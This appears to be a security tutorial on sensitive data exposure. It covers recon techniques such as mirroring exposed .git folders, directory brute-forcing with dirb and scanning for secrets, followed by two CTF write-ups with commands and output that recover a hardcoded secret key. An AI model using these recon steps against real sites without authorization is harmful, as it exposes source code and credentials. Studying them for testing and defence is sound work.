

# Sensitive Data Exposure

Sensitive data exposure occurs when an application accidentally exposes sensitive data. e.g bank account details, credit card data , healthcare data, session tokens, social security numbers, home address, phone numbers, dates of birth, and user account information such as usernames and passwords,

## Impact

It can have both direct and indirect impact depending on the exposed data,

For example, leaking customers' credit card details has a high impact, these types of data require protection as defined by laws such as EU GDPR or local security laws.

## Useful techniques 
1. Developers comments :
   
   Sometimes the developer forget to remove important comments in the web applications (e.g default access creds) before pushing it to production 

2. Checking javascript files for useful URLs / endpoints :

   Sometimes you could find useful endpoints in the JS files that are being used by the web application , there are a lot of tools that can do that automatically like : LinkFinder , this tool will bring all hidden endpoints and their parameters to you .

3. Checking Robots.txt file for hidden paths  :
   
   `robots.txt` tells search engine crawlers which pages or files the crawler can or can't request from your site.



4. Brute forcing web application directories/files 
   
   There are some useful tools that can be used to guess the hidden directories/files in the web application , like dirb ,dirsearch , etc.


5. Information disclosure through git directories / github repository 
   
   Sometimes you will find .git directory exposed in the website , this can lead you to get sensitive information , or even reading the source code of that web application .
   
   Also some organization uses public github repositories in which you can look for any hidden secrets (e.g API keys ,etc) , you can use some tools for that like : gitrob

6. Sensitive files : 
   
   You can try using a wordlist for common files extension , that can help to check if there is a hidden files there in which you can get useful information about the source code e.g (~, bak, txt, src, dev, old, inc, orig, copy, tmp, swp, etc)
   
## Mitigation 

1. Anyone involved in producing the website must be fully aware of what information is considered sensitive 
2. Audit/review application code for any potential information disclosure before pushing it to production.
3. Use generic error messages as much as possible to prevent attackers from getting any clues about the application behavior 
4. Do not store any sensitive information in a plain text format.

## Tools
1. [LinkFinder](https://github.com/GerbenJavado/LinkFinder) : retrieve hidden endpoints with their parameters
2. [Gitrob](https://github.com/michenriksen/gitrob) : reconnaissance tool for GitHub organizations 
3. [truffleHog](https://github.com/dxa4481/truffleHog) : checks git repositories for secret information.
4. [dirsearch](https://github.com/maurosoria/dirsearch) : Web path scanner

## Challenges
1. Maximum Courage 

Download the page using wget, then use the git show command to find the flag hidden in the `secret_key`

```
┌──(kali㉿kali)-[~]
└─$ wget -r http://3.126.138.80/maximum/.git/
--2021-09-03 10:28:32--  http://3.126.138.80/maximum/.git/
Connecting to 3.126.138.80:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘3.126.138.80/maximum/.git/index.html’
```

```
┌──(kali㉿kali)-[~/3.126.138.80/maximum]
└─$ git show flag.php   
commit 190de370286e98dda6813ac9c05f679ad60d9f9c (HEAD -> master)
Author: comMand3r <command3R@hex.com>
Date:   Tue Mar 9 19:19:15 2021 -0500

    Maximum Courage

diff --git a/flag.php b/flag.php
new file mode 100644
index 0000000..9e4a7c9
--- /dev/null
+++ b/flag.php
@@ -0,0 +1,7 @@
+You can't view this flag directly.^M
+<!-- PHP source doesn't appear on HTML comments -->^M
+<?php^M
+exit();^M
+die();^M
+$secret_key = 'be607453caada6a05d00c0ea0057f733';^M
+?>
\ No newline at end of file
:

```
2. Comrade III
```
┌──(kali㉿kali)-[~]
└─$ dirb http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep  3 10:36:50 2021
URL_BASE: http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/ ----
                                                                             + http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/.git/HEAD (CODE:200|SIZE:23)

```

```
┌──(kali㉿kali)-[~]
└─$ wget -r http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/.git/

```

```
┌──(kali㉿kali)-[~/ec2-35-158-236-11.eucentral-1.compute.amazonaws.com/comrade]
└─$ git show         
commit 49adf7eca172cd3f037e4d6a7c6f6ac7dd8f7659 (HEAD -> master)
Author: pen10test <pen10test@test.com>
Date:   Mon Aug 24 20:18:39 2020 -0400

    COMRADE ||| Update

diff --git a/access.php b/access.php
deleted file mode 100644
index 4f2fd57..0000000
--- a/access.php
+++ /dev/null
@@ -1,7 +0,0 @@
-
-<?php
-include('contact_process.php');
-exit();
-die();
-$apikey = $access;
-?>
\ No newline at end of file
                                                                             
┌──(kali㉿kali)-[~/ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade]
└─$ git log 
commit 49adf7eca172cd3f037e4d6a7c6f6ac7dd8f7659 (HEAD -> master)
Author: pen10test <pen10test@test.com>
Date:   Mon Aug 24 20:18:39 2020 -0400

    COMRADE ||| Update

commit e332b1463f90fe029d601dee102da9d9b23b29e8
Author: pen10test <pen10test@test.com>
Date:   Mon Aug 24 20:17:18 2020 -0400

    COMRADE ||| Update
                           
```
